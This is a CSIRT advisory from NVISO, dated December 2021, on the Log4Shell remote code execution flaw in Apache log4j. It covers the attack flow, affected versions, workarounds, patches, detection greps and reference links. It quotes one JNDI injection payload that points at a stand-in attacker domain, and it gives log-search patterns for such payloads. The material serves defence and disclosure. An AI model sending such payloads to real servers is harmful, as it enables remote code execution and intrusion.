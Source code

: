 ## NVISO CSIRT ADVISORY
**Last update: 2021-12-15**


## SUMMARY
In this advisory we provide an overview of the recently discovered vulnerability in Apache log4j and how attackers can abuse it. We will update this blog post as more information is released. 

A high severity vulnerability in Apache log4j was disclosed publicly on 9 December 2021. This vulnerability was initially discovered by Chen Zhaojun of the Alibaba Cloud Security Team.

Log4j is an open-source Java logging library that is widely used in many applications and is present as a dependency in many services. This includes enterprise applications and numerous cloud services. 
 
This vulnerability allows for unauthenticated remote code execution using the following flow:
1.	Attacker sends data to the server (via any protocol). 
2.	The server (with log4j enabled) logs the data in the request, containing the malicious payload: `${jndi:ldap//attackerowneddomain.com/a}`
3.	The log4j vulnerability is triggered by this payload and the server makes a request to the attackerowneddomain.com via JNDI (Java Naming and Directory Interface). This also works using RMI (see link to SANS ISC post below)
5.	The server owned by the attacker responds to the request with a path to a remote (malicious) Java class file. This file is then injected in in the server process
6.	This malicious Java class file upon execution can trigger arbitrary code execution

## WHY THIS MATTERS
Given how widespread this library is used and how easy the exploit is, the impact of this vulnerability can be seen as very severe. 

On 10 December 2021 a PoC (Proof of Concept) was released for this vulnerability (https://github.com/tangxiaofeng7/apache-log4j-poc). Currently extensive scanning is being performed and a number of active exploitation attempts have been observed as well. In a first stage this vulnerability has been seen being used to deploy cryptocurrency mining software, this vulnerability will however be abused to gain an foothold in your network that can be used by a variety of attacks, now, or at a later stage (e.g. ransomware attacks, data theft, etc.). 

NCSC-NL has provided a list of vulnerable and non-vulnerable software to the log4j exploit, which can be found here: https://github.com/NCSC-NL/log4shell/tree/main/software

## RECOMMENDED ACTIONS
Critical risk vulnerabilities should be fully patched as soon as possible. 

Given the ease of exploitation it is strongly suggested to apply the patches for internet facing software immediately. Applying the patches to your internal software is recommended to be done at your earliest convenience.


## AFFECTED PRODUCTS
All Apache log4j versions from 2.0 up to and including 2.14.1 

All frameworks that use these versions (e.g. Apache Structs2, Apache Solr, Apache Druid, Apache Flink, etc.)


## AVAILABLE WORKAROUNDS
It is important to note that as part of the exploitation of this vulnerability, the vulnerable server must make an outbound request to the attacker owned server. Limiting outbound internet connectivity from web servers would prevent the full exploit chain. 

Sanitize log data before processing into Log4j

Specific mitigations:
Mitigations have changed given latest guidence from The Apache Software Foundation.
https://logging.apache.org/log4j/2.x/security.html

TL;DR:
>
>Log4j 1.x mitigation: Log4j 1.x does not have Lookups so the risk is lower. Applications using Log4j 1.x are only vulnerable to this attack when they use JNDI in their configuration. A separate CVE (CVE-2021-4104) has been filed for this vulnerability. To mitigate: audit your logging configuration to ensure it has no JMSAppender configured. Log4j 1.x configurations without JMSAppender are not impacted by this vulnerability.
>
>Log4j 2.x mitigation: Implement one of the mitigation techniques below.
>* Java 8 (or later) users should upgrade to release 2.16.0.
>* Users requiring Java 7 should upgrade to release 2.12.2 when it becomes available (work in progress, expected to be available soon).
>* Otherwise, remove the JndiLookup class from the classpath: zip -q -d log4j-core-*.jar org/apache/logging/log4j/core/lookup/JndiLookup.class
>   Note that only the log4j-core JAR file is impacted by this vulnerability. Applications using only the log4j-api JAR file without the log4j-core JAR file are not impacted by this vulnerabili

<s>
- For version >=2.10: set `log4j2.formatMsgNoLookups` to `true`
- For releases from 2.0 to 2.10.0: you may want to remove the LDAP class from log4j completely by issuing the following command: `zip -q -d log4j-core-*.jar org/apache/logging/log4j/core/lookup/JndiLookup.class`
- For certain JVM Versions, it is possible to set `com.sun.jndi.rmi.object.trustURLCodebase` and `com.sun.jndi.cosnaming.object.trustURLCodebase` to false to mitigate the vulnerability. Some JVM versions already have this as default setting
</s>

Several of the above recommendations have been nicely visualized by the Swiss Government CERT: https://www.govcert.ch/blog/zero-day-exploit-targeting-popular-java-library-log4j/

## AVAILABLE PATCHES
On December 10, 2021, version 2.15.0 RC2 was released. This patch was not complete. It was vulnerable to other attacks. See CVE-2021-45046.

On December 13, 2021, a new version (2.16.0) of log4j was released, disabling JNDI by default: https://logging.apache.org/log4j/2.x/changes-report.html#a2.16.0 

## DETECTIONS
- Review logs generated for Log4j processing and focus on JNDI and RMI entries
- Review outbound connections of system running Log4j
- YARA rule by Florian Roth: https://gist.github.com/Neo23x0/e4c8b03ff8cdf1fa63b7d15db6e3860b
- Log4shell detector by Florian Roth: https://github.com/Neo23x0/log4shell-detector
- Scan your servers for potentially vulnerable libraries based on the hashes provided by Mubix: https://github.com/mubix/CVE-2021-44228-Log4Shell-Hashes/
- Guidance for detection and hunting by Microsoft: https://www.microsoft.com/security/blog/2021/12/11/guidance-for-preventing-detecting-and-hunting-for-cve-2021-44228-log4j-2-exploitation/
- Fenrir 0.9 Log4shell edition by Florian Roth - Quick scanner for a number of quick checks: https://github.com/Neo23x0/Fenrir/releases/tag/v0.9.0

Search logs using following commands (the above mentioned Log4shell detector will give you a better view):

`sudo egrep -i -r '\$\{jndi:(ldap[s]?|rmi|dns):/[^\n]+' /var/log`

`sudo find /var/log -name \*.gz -print0 | xargs -0 zgrep -E -i '\$\{jndi:(ldap[s]?|rmi|dns):/[^\n]+'`



## CVSS SCORE AND CVE ID
|CVE ID	|Severity	|CVSSv3 Score|
|-------|-----------|------------|
|CVE-2021-44228	|Critical	|X	|X	|

Note: this vulnerability is also known as log4shell
NIST: https://nvd.nist.gov/vuln/detail/CVE-2021-44228

MITRE: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-44228



## MORE INFORMATION
More information and detailed explanations on the working of this vulnerability can be found on the links below.
- Log4Shell: RCE 0-day exploit found in log4j, a popular Java logging package: https://www.lunasec.io/docs/blog/log4j-zero-day/
- Swiss Government CERT: https://www.govcert.ch/blog/zero-day-exploit-targeting-popular-java-library-log4j/
- SANS ISC - RCE in log4j, Log4Shell, or how things can get bad quickly: https://isc.sans.edu/forums/diary/RCE+in+log4j+Log4Shell+or+how+things+can+get+bad+quickly/28120/
- Greynoise is tracking the RCE attempts: https://www.greynoise.io/viz/query/?gnql=tags%3A%22Apache%20Log4j%20RCE%20Attempt%22
- CIRCL.LU TR-65 - Vulnerabilities and Exploitation of Log4j (Remote code injection in Log4j): https://www.circl.lu/pub/tr-65/
- Security advisories from different vendors linked to CVE-2021-44228 (do note that not all vendors listed here are vulnerable, the link can also indicate a general statement): https://gist.github.com/SwitHak/b66db3a06c2955a9cb71a8718970c592
- Advisory by the Swiss Government CERT: https://www.govcert.ch/blog/zero-day-exploit-targeting-popular-java-library-log4j/
- Guidance for preventing, detecting, and hunting for CVE-2021-44228 Log4j 2 exploitation by Microsoft: https://www.microsoft.com/security/blog/2021/12/11/guidance-for-preventing-detecting-and-hunting-for-cve-2021-44228-log4j-2-exploitation/
- NCSC-NL Log4j overview related software: https://github.com/NCSC-NL/log4shell/tree/main/software
- CERT-BE: https://www.cert.be/nl/warning-active-exploitation-0-day-rce-log4j
